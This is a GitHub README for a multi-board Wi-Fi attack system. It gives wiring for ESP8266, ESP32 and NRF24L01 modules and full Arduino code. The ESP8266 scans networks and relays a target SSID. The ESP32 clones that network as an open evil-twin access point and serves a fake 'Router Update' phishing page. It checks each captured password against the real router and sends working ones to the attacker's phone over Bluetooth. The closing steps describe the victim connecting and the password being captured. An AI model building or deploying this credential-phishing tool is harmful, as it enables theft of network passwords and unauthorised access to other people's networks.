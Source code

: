 # WIFI-project-penetration-system
**highly coordinated, multi-microcontroller Wi-Fi penetration system**

---

1. 🔵 Project 01 : using NRF --> `This Project`
2. 🟢 Priject 02 : without NRF --> Part 1 (deauther) [link](https://github.com/akashdip2001/Wi-Fi-deauther-with-ESP8266-OLED-module) & Part 2 [fishing website](#)

---

- **ESP8266**: Scanning + Deauth + Control Center  
- **ESP32 WROOM**: Fake Access Point + Phishing Page + Password Verification  
- **NRF24L01**: Wireless data bridge between ESP8266 and ESP32  
- **Bluetooth**: Send password to your mobile  
- **Phone**: Control UI via web interface on ESP8266 AP


---

## **[1] ESP8266 — Command & Scan Hub**

### **Functions**:
- Create an Access Point (e.g., `Controller_AP`)
- Serve a web UI to:
  - View scanned networks
  - Select a target network
- Send selected SSID via NRF24L01 to ESP32
- Start deauth attack on the selected SSID

---

### **[2] ESP32 — Fake Access Point + Phishing**

### **Functions**:
- Receive SSID over NRF24L01
- Clone the fake AP using SoftAP
- Show captive portal (phishing)
- Validate password format (via WiFi.begin)
- If correct, send to phone via Bluetooth
- If wrong, show error and retry

---

### **[3] NRF24L01 Communication**

- ESP8266 = NRF **transmitter**  
- ESP32 = NRF **receiver**

---

## ⚠️⚠️⚠️ **complete wiring connections** for the **ESP8266 and ESP32-WROOM with NRF24L01** modules. Both boards will communicate wirelessly using **SPI** with NRF24L01 modules.

## **1. NRF24L01 with ESP8266 (e.g., NodeMCU)**  
> **Role**: Transmitter (sends SSID to ESP32 when target is selected)

### **Wiring:**

| **NRF24L01 Pin** | **ESP8266 Pin** |
|------------------|-----------------|
| VCC              | **3.3V** (Important: Use capacitor for stability — see note below) |
| GND              | GND             |
| CE               | **D2 (GPIO4)**  |
| CSN (CS)         | **D1 (GPIO5)**  |
| SCK              | **D5 (GPIO14)** |
| MOSI             | **D7 (GPIO13)** |
| MISO             | **D6 (GPIO12)** |

**Note**:  
- Add a **10µF capacitor** between **VCC and GND** of the NRF24L01 to prevent power fluctuation.
- Use **external 3.3V LDO regulator** if NRF behaves erratically (ESP8266 3.3V is weak for NRF).

---

## **2. NRF24L01 with ESP32-WROOM-32**  
> **Role**: Receiver (receives SSID and creates Fake Access Point)

### **Wiring:**

| **NRF24L01 Pin** | **ESP32 Pin**     |
|------------------|------------------|
| VCC              | **3.3V**         |
| GND              | GND              |
| CE               | **GPIO26**       |
| CSN (CS)         | **GPIO27**       |
| SCK              | **GPIO18**       |
| MOSI             | **GPIO23**       |
| MISO             | **GPIO19**       |

**Note**:
- Same as above: Add a 10µF capacitor across VCC and GND.
- Use stable 3.3V from ESP32 LDO or external regulator for NRF.

---

## ⚠️ **Capacitor Wiring**  
Add a **10µF (or 4.7µF–22µF) electrolytic or ceramic capacitor** between **VCC and GND** of the **NRF module** to stabilize power. Connect:
- Capacitor **positive leg** to VCC  
- Capacitor **negative leg** to GND  

---

## **Summary Diagram (for clarity)**

```yaml
ESP8266 (NodeMCU)         NRF24L01
---------------------     ----------
3.3V                --->  VCC
GND                 --->  GND
D2  (GPIO4)         --->  CE
D1  (GPIO5)         --->  CSN (CS)
D5  (GPIO14)        --->  SCK
D7  (GPIO13)        --->  MOSI
D6  (GPIO12)        --->  MISO

ESP32-WROOM-32           NRF24L01
---------------------     ----------
3.3V                --->  VCC
GND                 --->  GND
GPIO26             --->  CE
GPIO27             --->  CSN (CS)
GPIO18             --->  SCK
GPIO23             --->  MOSI
GPIO19             --->  MISO
```

---

### Check the Wireless modules are working properly :: NRF module check --> [code](https://github.com/akashdip2001/Wireless-LED-Control-Code-with-NRF)


<p align="center">
  <img src="https://github.com/akashdip2001/High-end-autonomous-anomaly-detection-robot/raw/main/img/modules%20(4).jpg" alt="Image 1" width="46%" style="margin-right: 10px;"/>
  <img src="https://github.com/akashdip2001/High-end-autonomous-anomaly-detection-robot/raw/main/img/modules%20(5).jpg" alt="Image 2" width="46%" style="margin-right: 10px;"/>
</p>

---

## 👨‍💻 **Code Components**

### ✅ ESP8266 Code (Access Point + WiFi Scanner + Web UI + NRF TX + Deauth trigger)

> You’ll need these libraries:
- `ESP8266WiFi.h`
- `ESPAsyncWebServer.h`
- `nRF24L01.h`, `RF24.h`

#### **ESP8266**
```cpp
#include <ESP8266WiFi.h>
#include <ESPAsyncWebServer.h>
#include <SPI.h>
#include <nRF24L01.h>
#include <RF24.h>

const char* ap_ssid = "Controller_AP";
const char* ap_password = "12345678";

AsyncWebServer server(80);

RF24 radio(D2, D1); // CE, CSN
const byte address[6] = "00001";

String networksHTML = "";

void scanNetworks() {
  networksHTML = "";
  int n = WiFi.scanNetworks();
  for (int i = 0; i < n; ++i) {
    networksHTML += "<p><a href='/select?ssid=" + WiFi.SSID(i) + "'>" + WiFi.SSID(i) + "</a></p>";
  }
}

void setup() {
  Serial.begin(115200);

  WiFi.mode(WIFI_AP);
  WiFi.softAP(ap_ssid, ap_password);

  radio.begin();
  radio.setPALevel(RF24_PA_LOW);
  radio.openWritingPipe(address);
  radio.setChannel(108);
  radio.stopListening();

  scanNetworks();

  server.on("/", HTTP_GET, [](AsyncWebServerRequest *request){
    request->send(200, "text/html", "<h2>Nearby Wi-Fi Networks</h2>" + networksHTML);
  });

  server.on("/select", HTTP_GET, [](AsyncWebServerRequest *request){
    if (request->hasParam("ssid")) {
      String targetSSID = request->getParam("ssid")->value();
      radio.write(&targetSSID[0], targetSSID.length());
      request->send(200, "text/html", "<p>Target SSID Sent: " + targetSSID + "</p>");
    } else {
      request->send(400, "text/plain", "SSID not provided.");
    }
  });

  server.begin();
}

void loop() {
  // Optional: refresh scan periodically
}
```

---

### ✅ ESP32 Code (NRF24 RX + Fake AP + Captive Portal + Bluetooth)

> Libraries needed:
- `WiFi.h`, `WebServer.h`
- `SPI.h`, `nRF24L01.h`, `RF24.h`
- `BluetoothSerial.h`

#### **ESP32**

```cpp
#include <WiFi.h>
#include <WebServer.h>
#include <BluetoothSerial.h>
#include <SPI.h>
#include <nRF24L01.h>
#include <RF24.h>

BluetoothSerial BT;
RF24 radio(26, 27); // CE, CSN

const byte address[6] = "00001";
char receivedSSID[50];

WebServer server(80);
String inputHTML = "<html><body><h3>Router Update Available</h3><form action='/submit'><input name='pass'><input type='submit'></form><p id='err' style='color:red;'></p></body></html>";

void handleSubmit() {
  String pass = server.arg("pass");

  WiFi.begin(receivedSSID, pass.c_str());
  delay(3000);

  if (WiFi.status() == WL_CONNECTED) {
    BT.println("Correct password for SSID: " + String(receivedSSID) + " → " + pass);
    server.send(200, "text/html", "<h4>Password verified and accepted!</h4>");
  } else {
    server.send(200, "text/html", inputHTML + "<script>document.getElementById('err').innerText='Wrong password. Try again.'</script>");
  }
}

void setup() {
  Serial.begin(115200);
  BT.begin("ESP32_PasswordCatcher");

  radio.begin();
  radio.setPALevel(RF24_PA_LOW);
  radio.openReadingPipe(1, address);
  radio.setChannel(108);
  radio.startListening();

  WiFi.mode(WIFI_AP);

  server.on("/", []() {
    server.send(200, "text/html", inputHTML);
  });
  server.on("/submit", handleSubmit);
  server.begin();
}

void loop() {
  if (radio.available()) {
    radio.read(&receivedSSID, sizeof(receivedSSID));
    Serial.print("Received SSID: ");
    Serial.println(receivedSSID);

    WiFi.softAP(receivedSSID, "");
  }
  server.handleClient();
}
```

---

## ✅ How to Connect Mobile??

- Connect phone to `Controller_AP`
- Web UI appears at `192.168.4.1/` (auto-open if captive portal configured)
- Select SSID → ESP8266 sends it via NRF → ESP32 clones SSID
- Victim connects → Phishing page shows → Captures password
- ESP32 validates, and if correct → sends it to your phone over Bluetooth

---

### ⚠️ **upgade Needed** !!

You can:
- Log attempts with timestamps in EEPROM
- Add OLED or LED status on success
- Add reset logic using a push button (for both modules)

---

### ⚙️ future improvement plan?
- Android app to receive Bluetooth passwords with UI?
- NRF communication debugging tools?
- PCB design or wiring diagram?

